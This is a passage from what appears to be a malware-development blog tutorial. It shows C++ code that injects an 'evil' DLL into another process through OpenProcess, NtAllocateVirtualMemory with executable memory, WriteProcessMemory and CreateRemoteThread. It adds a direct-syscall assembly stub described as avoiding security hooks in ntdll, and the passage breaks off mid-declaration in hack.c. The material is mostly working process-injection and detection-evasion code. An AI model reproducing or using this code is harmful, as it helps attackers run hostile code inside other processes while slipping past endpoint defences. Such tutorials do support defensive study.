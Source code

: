 ```cpp
  // parse process ID
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  pNtAllocateVirtualMemory myNtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(ntdll, "NtAllocateVirtualMemory");  

  // allocate memory buffer for remote process
  myNtAllocateVirtualMemory(ph, &rb, 0, (PULONG)&evilLen, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

Below is an example of a created syscall in an assembly file (`syscall.asm`):    

```nasm
section .text
global myNtAllocateVirtualMemory
myNtAllocateVirtualMemory:
  mov r10, rcx
  mov eax, 18h ; syscall number for NtAllocateVirtualMemory
  syscall
  ret
```

For the same result as invoking `NtAllocateVirtualMemory` with `GetProcAddress` and `GetModuleHandle`, the following assembly function may be used instead. This eliminates the requirement to invoke `NtAllocateVirtualMemory` from within the `ntdll` address space, where hooks are installed, thus avoiding the hooks.       

In our `C` code, we can define and use the `myNtAllocateVirtualMemory` function like this:     

```cpp
/*
hack.c
syscall via assembly
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/06/09/syscalls-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

char evilDLL[] = "C:\\temp\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

extern "C" NTSTATUS myNtAllocateVirtualMemory(
    HANDLE             ProcessHandle,
    PVOID              *BaseAddress,
    ULONG              ZeroBits,
    PULONG             RegionSize,
    ULONG              AllocationType,
    ULONG              Protect
```